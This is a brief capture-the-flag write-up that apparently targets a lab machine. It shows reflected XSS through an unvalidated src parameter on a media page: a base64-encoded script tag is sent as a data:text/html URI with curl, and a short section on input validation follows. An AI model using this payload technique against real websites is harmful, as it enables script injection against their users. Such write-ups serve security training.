 # XSS Media Tag

In the home page there's only one image with a link. If you click this link you'll be redirected to the media page. The media page url accepts a src parameter that isn't validated by the server.

## Steps

* Go to the <a href="http://192.168.56.102/?page=media">media page</a>.
* Open terminal
* Run
```bash
        cd ./Resources
        
	py base64Encode.py "<script>alert('Game Over');</script>"
	#Above will output "Encoded value of str <script>alert('Game Over');</script> -> PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" 
```
* Now that we have our malicious content encrypted we can send it, run
```bash
	curl "http://192.168.56.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" | grep "flag"
```

## Ways to secure
The best way to handle this is to validate and sanitize client input.
Fetch images from their src directory.
